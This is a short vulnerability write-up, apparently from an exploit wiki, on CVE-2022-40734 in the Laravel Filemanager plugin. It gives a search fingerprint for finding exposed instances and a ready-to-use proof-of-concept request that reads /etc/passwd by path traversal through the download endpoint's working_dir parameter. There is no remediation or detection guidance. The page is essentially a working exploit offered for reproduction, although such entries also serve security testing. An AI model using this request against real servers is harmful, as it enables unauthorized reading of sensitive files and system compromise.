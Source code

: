 # Laravel Filemanager plug-in download arbitrary file reading vulnerability CVE-2022-40734

## Vulnerability Description

Laravel Filemanager plug-in download interface has arbitrary file reading vulnerability, and attackers can obtain sensitive data on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Laravel Filemanager plugin</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Laravel Filemanager"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664084648855-fcb64ea4-cb62-4919-810c-a7d5af1f32d4.png)

Verify POC

```sql
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664084692096-263ec0e8-f683-4ec3-8d01-d2b0bc177fc2.png)